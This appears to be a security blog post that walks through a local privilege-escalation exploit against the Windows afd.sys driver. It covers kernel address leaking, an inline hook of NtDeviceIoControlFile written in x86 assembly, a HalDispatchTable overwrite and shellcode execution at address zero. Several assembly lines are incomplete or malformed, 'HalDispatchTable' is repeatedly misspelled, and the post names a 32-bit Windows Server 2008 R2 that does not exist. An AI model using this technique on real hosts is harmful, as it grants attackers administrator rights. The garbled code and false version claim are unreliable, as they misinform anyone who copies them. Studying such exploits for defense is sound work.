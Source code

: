```yaml
---
layout: post
title: Ancillary Function Driver
date:   2021-01-31
categories:  PE MSDOS
published: true
---
```


Started the kernel fuzzing in Windows Server 2008 R2 , 32-Bit. I identified this version of windows using vulnerable or unpatched version of Ancillary Function Driver(AFD).

----
[](#header-1)**Definition**
---

The ancillary function driver supports windows sockets application in the afd.sys file. The afd.sys driver runs in a kernel mode and manages the Winsock TCP/IP communication protocols.

----
[](#header-2)**Analysis**
---

Major Flaw in AFD Driver is it was improperly validating input passed from the user mode to the kernel mode, through which any user can get Administrator Rights.
For exploiting this vulnerability , the user should have Login Credentials as a Local User.

----
 [](#header-3)**Bug Mechanism**
---

Once Execution is done , Process waits for a user to enter an argument, with successfull execution of a process, user will able to exploit Privilege Escalation.

***BUG***

Once the Execution is started :

It calls “ZwQuerySystemInformation” with user arguments such as -> **InfoType = SystemModuleInfo**

After command execution , it will list the loaded drivers with there memory addresses in kernel mode.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/1.png)

We identified the Entry of "**ntoskrnl.exe**" or "**ntkrnlpa**" in the list the memory is loaded in the kernel space from "**“_SYSTEM_MODULE_INFORMATION**".

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/2.png)


**LoadLibrary()** will Load the module in user mode and start searching for the address of "**HalfDispatchTable**".

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/3.png)

Instructions are used to get the “**HalDispatchTable +4**” in module “ntkrnlpa.exe” in kernel space.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/4.png)

----
 [](#header-4)**Exploit**
---

1. The exploit will start by fetching the address to “NtDeviceIoControlFile” API from NTDLL. Once the address is fetched it performs an inline function hooks to the API.

Code is used to Perform the Hook:

    
    	MOV BYTE PTR DS:[ESI],68

    /* ESI points to start of the address of NtDeviceIoControlFile */

        MOV DWORD PTR DR:[ESI+1],
        MOV BYTE PTR DR:[ESI+5]

    /* Above instructions used to inject instructions in to the address space of NtDeviceIoControlFile */

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/5.png)


    PUSH <zero.loc_401640>
    RETN 


The address <zero.loc_401640> points to the hook routine which will be executed before NtDeviceIoControlFiles code as shown below :

     CMP DWORD PTR SS:[ESP+18],12007

    /* 12007 indicates the Iocontrolcode for socket connect */

        JNZ SHORT <zero.loc_40165B>
        MOV EAX,DWORD PTR DS:[40FA70]

    /* contains values 8053513c (address of HalDispatchTable + $4) */

        MOV DWORD PTR SS:[ESP+24],EAX

    /* output buffer for NtDeviceIoControlFile, the address now point to 8053513c*/

    MOV DWORD PTR SS:[ESP+80], 0

    /* The length of output buffer is set to 0  */

    LEA EAX DWORD PTR DS:[40FA78]

    /* Location of the original NtDeviceControlFile which gets executed next. */

    PUSH EAX
    RETN

The above code will change arguments provided to function “**NtDeviceIoControlFile**” when a socket connection bein performed, the arguments changed are output buffer and its length as given below :

        Outbuffer = 8053513c
        Length = 0;

The routine at adddress **0x0040fa78** is executed , “**NtDeviceIoControlFile**” .

     MOV EAX 42, 
     MOV EDX,7FF30300
     CALL EDX
     RETN 28

The modified code is it will hook without any error to connect with 127.0.0.1 at 135 port using connect() “**NtDeviceControl**”.
The driver writes location to (0x8053513c) -> HalfDispatchTable + $4) with the value 0.  

Once is hook successfully overwrites the memory to 0, NtDeviceIoControlFile is removed.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/6.png)

Final Step of Exploitation To call the API “**ntdll.ZwQueryIntervalProfile**".

     CALL DWORD PTR [HalfDispatchTable+$4]

As mentioned earlier the value of HalfDispatchTable+$4 is now 0 stored after call to connect().

        New Pointer PTR:
        CALL 0x0000000

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/7.png)

The shellcode is copied to the location of 0x00000000 gets executed.

API CALL “**NtDeviceIoControlFile**” will lead to arbitrary memory overwrite which will lead to Privilege Escalation.

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/8.png)


----
 [](#header-5)**Proof Of Concept**
---

![](https://yashomer1994.github.io/yash007.github.io/assets/afd/9.png)
















